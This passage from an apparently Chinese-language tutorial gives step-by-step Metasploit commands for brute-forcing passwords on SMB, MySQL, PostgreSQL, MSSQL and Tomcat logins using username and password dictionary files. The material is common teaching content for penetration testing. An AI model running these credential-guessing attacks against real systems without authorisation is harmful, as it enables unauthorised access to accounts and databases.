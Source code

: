 <pre class="wp-block-code"><code>
msf &gt; use auxiliary/scanner/smb/smb_login （使用smb_login模块）
msf auxiliary(smb_login) &gt; show options （查看选项）
msf auxiliary(smb_login) &gt; set RHOSTS 10.180.100.10（目标）
msf auxiliary(ssmb_login) &gt; set USER_FILE /root/username.txt（用户名字典，或指定用户）
msf auxiliary(ssmb_login) &gt; set PASS_FILE /root/pass.txt（密码字典文件）
msf auxiliary(ssmb_login) &gt; exploit（开始）
</code></pre>

Mysql口令猜解：

<pre class="wp-block-code"><code>
msf &gt; use auxiliary/scanner/mysql/mysql_login （使用mysql_login模块）
msf auxiliary(mysql_login) &gt; show options （查看选项）
msf auxiliary(mysql_login) &gt; set RHOSTS 192.168.230.176（目标）
msf auxiliary(mysql_login) &gt; set USERNAME root（用户名字典，或指定用户）
msf auxiliary(mysql_login) &gt; set PASS_FILE /root/pass.txt（密码字典文件）
msf auxiliary(mysql_login) &gt; exploit（开始）
</code></pre>

Postgresq口令猜解：

<pre class="wp-block-code"><code>
msf &gt; use auxiliary/scanner/postgres/postgres_login （使用postgres_login模块）
msf auxiliary(postgres_login) &gt; show options （查看选项）
msf auxiliary(postgres_login) &gt; set RHOSTS 192.168.230.10（目标）
msf auxiliary(postgres_login) &gt; set USER_FILE /root/username.txt（用户名字典，或指定用户）
msf auxiliary(postgres_login) &gt; set PASS_FILE /root/pass.txt（密码字典文件）
msf auxiliary(postgres_login) &gt; exploit （开始）
</code></pre>

Mssql口令猜解：

<pre class="wp-block-code"><code>
msf &gt; use auxiliary/scanner/mssql/mssql_login （使用mssql_login 模块）
msf auxiliary(mssql_login) &gt; show options （查看选项）
msf auxiliary(mssql_login) &gt; set RHOSTS 10.107.0.64（目标）
msf auxiliary(mssql_login) &gt; set USER_FILE /root/username.txt（用户名字典，或指定用户）
msf auxiliary(mssql_login) &gt; set PASS_FILE /root/pass.txt（密码字典文件）
msf auxiliary(mssql_login) &gt; exploit（开始）
</code></pre>

Tomcat口令猜解：

<pre class="wp-block-code"><code>
msf &gt; use auxiliary/scanner/http/tomcat_mgr_login （使用tomcat_mgr_login模块）
msf auxiliary(tomcat_mgr_login) &gt; show options（查看选项）
msf auxiliary(tomcat_mgr_login) &gt; set RHOSTS 192.168.230.176（目标）
msf auxiliary(tomcat_mgr_login) &gt; set USER_FILE username.txt（用户名字典，或指定用户）
msf auxiliary(tomcat_mgr_login) &gt; set PASS_FILE /root/pass.txt（密码字典文件）
msf auxiliary(tomcat_mgr_login) > exploit（开始）
</code></pre>


以上就是Hydra、Metasploit的暴利破解过程。
